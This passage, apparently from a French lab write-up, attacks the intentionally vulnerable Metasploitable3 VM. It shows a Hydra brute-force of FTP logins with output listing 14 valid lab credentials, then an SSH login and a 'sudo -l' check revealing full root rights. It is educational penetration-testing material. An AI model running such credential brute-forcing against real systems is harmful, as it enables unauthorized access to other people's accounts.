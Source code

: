 Avec Hydra, je découvre que ces identifiants sont valides, sur FTP comme sur SSH :

```console
$ hydra -L users.txt -P pass.txt ftp://192.168.1.8
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 289 login tries (l:17/p:17), ~19 tries per task
[DATA] attacking ftp://192.168.1.8:21/
[21][ftp] host: 192.168.1.8   login: leia_organa   password: help_me_obiwan
[21][ftp] host: 192.168.1.8   login: luke_skywalker   password: like_my_father_beforeme
[21][ftp] host: 192.168.1.8   login: han_solo   password: nerf_herder
[21][ftp] host: 192.168.1.8   login: artoo_detoo   password: b00p_b33p
[21][ftp] host: 192.168.1.8   login: c_three_pio   password: Pr0t0c07
[21][ftp] host: 192.168.1.8   login: ben_kenobi   password: thats_no_m00n
[21][ftp] host: 192.168.1.8   login: anakin_skywalker   password: but_master:(
[21][ftp] host: 192.168.1.8   login: jarjar_binks   password: mesah_p@ssw0rd
[21][ftp] host: 192.168.1.8   login: lando_calrissian   password: @dm1n1str8r
[21][ftp] host: 192.168.1.8   login: boba_fett   password: mandalorian1
[21][ftp] host: 192.168.1.8   login: jabba_hutt   password: my_kinda_skum
[21][ftp] host: 192.168.1.8   login: greedo   password: hanSh0tF1rst
[21][ftp] host: 192.168.1.8   login: chewbacca   password: rwaaaaawr8
[21][ftp] host: 192.168.1.8   login: kylo_ren   password: Daddy_Issues2
1 of 1 target successfully completed, 14 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

Le compte Leia est privilégié (permissions sudo permettant de tout faire) :

```console
$ ssh leia_organa@192.168.1.8
The authenticity of host '192.168.1.8 (192.168.1.8)' can't be established.
ED25519 key fingerprint is SHA256:Rpy8shmBT8uIqZeMsZCG6N5gHXDNSWQ0tEgSgF7t/SM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.8' (ED25519) to the list of known hosts.
leia_organa@192.168.1.8's password: 
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 3.13.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
*leia_organa@metasploitable3-ub1404:~$ ls
leia_organa@metasploitable3-ub1404:~$ sudo -l
[sudo] password for leia_organa: 
Matching Defaults entries for leia_organa on metasploitable3-ub1404:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User leia_organa may run the following commands on metasploitable3-ub1404:
    (ALL : ALL) ALL
```

C'est dommage que ce soit aussi simple, surtout pour un système destiné à apprendre Metasploit. On aurait aimé faire un peu d'escalade de privilèges et de pivoting :)
